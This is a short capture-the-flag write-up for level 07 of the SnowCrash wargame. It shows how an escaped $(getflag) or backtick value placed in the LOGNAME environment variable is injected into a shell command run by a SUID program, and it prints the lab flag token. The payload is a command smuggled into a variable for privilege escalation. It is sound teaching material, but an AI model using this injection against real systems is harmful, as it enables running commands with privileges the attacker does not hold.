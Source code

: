 # Level07

In this level we have a program in which have a getenv. The environment variable used is `LOGNAME`. 
It is printed using `echo %s\n`. So we can try to expand our `LOGNAME` env variable to execute `getflag` program.

In previous level we have find that [backquote/backtick](https://unix.stackexchange.com/questions/27428/what-does-backquote-backtick-mean-in-commands) are used to interprete string as command system like $();

```bash
level07@SnowCrash:~$ export LOGNAME=`getflag`; ./level07 
Check flag.Here is your token :
sh: 2: Syntax error: ")" unexpected
level07@SnowCrash:~$ export LOGNAME=$(getflag); ./level07 
Check flag.Here is your token :
sh: 2: Syntax error: ")" unexpected
```
Our variable is called but is interpreted directly without permission. It's not our choice.  
We want that the program `level07` interpreted our command because it has permissions (SUID is set).  
So to avoid that the variable being immediatly expand we can escape.  

```bash
level07@SnowCrash:~$ export LOGNAME=\$\(getflag\); ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
level07@SnowCrash:~$ export LOGNAME=\`getflag\`; ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

